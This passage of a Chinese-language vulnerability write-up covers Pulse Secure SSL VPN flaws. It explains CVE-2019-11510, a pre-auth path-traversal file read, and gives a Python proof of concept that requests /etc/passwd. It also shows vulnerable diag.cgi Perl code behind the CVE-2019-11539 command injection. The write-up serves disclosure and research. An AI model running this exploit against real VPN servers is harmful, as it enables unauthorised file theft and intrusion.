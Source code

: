 ### <a class="reference-link" name="6.CVE-2019-11510%EF%BC%9APre-auth%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96%E6%BC%8F%E6%B4%9E"></a>6.CVE-2019-11510：Pre-auth任意文件读取漏洞

这是最严重的一个漏洞，Pulse Secure开发自己的Web服务器和架构，原始路径验证非常严格。但是，从版本8.2开始，Pulse Secure引入了一项名为HTML5 Access的新功能，它是一种用于通过浏览器与Telnet，SSH和RDP交互的功能。由于这个新功能，原始路径验证变得松散。

为了处理静态资源，Pulse Secure创建了一个新的IF-CONDITION来扩展最初的严格路径验证。错误地使用了request-&gt;uri

和request-&gt;filepath，因此我们可以指定：

```
/dana/html5acc/guacamole/
```

查询字符串的末尾以绕过验证并request-&gt;filepath生成要下载的任何文件！

为了读取任意文件，必须再次指定路径：

```
/dana/html5acc/guacamole/
```

路径的中间位置，否则，只能下载有限的文件扩展名，例如.json，.xml或.html。

由于此漏洞会被在野利用，因此不再发布具体的payload：

```
import requests

r = requests.get('https://sslvpn/dana-na/../dana/html5acc/guacamole/../../../../../../etc/passwd?/dana/html5acc/guacamole/')
print r.content
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t0152131c2e9114f0ea.png)

### <a class="reference-link" name="7.CVE-2019-11539%EF%BC%9A%E6%8E%88%E6%9D%83%E5%90%8E%EF%BC%88admin%EF%BC%89%E5%91%BD%E4%BB%A4%E6%B3%A8%E5%85%A5"></a>7.CVE-2019-11539：授权后（admin）命令注入

最后一个是管理接口上的命令注入，我们很早就发现了这个漏洞，但最初找不到利用它的方法。当我们在拉斯维加斯时，我的一个朋友告诉我他之前发现了同样的问题，但他没有找到利用它的方法，因此他没有向供应商报告。

但是，我们做到了，我们以非常聪明的方式利用了它:)

这个漏洞的触发原因非常简单。这是一段/dana-admin/diag/diag.cgi的代码片段：

```
# ...
$options = tcpdump_options_syntax_check(CGI::param("options"));

# ...
sub tcpdump_options_syntax_check `{`
  my $options = shift;
  return $options if system("$TCPDUMP_COMMAND -d $options &gt;/dev/null 2&gt;&amp;1") == 0;
  return undef;
`}`
```
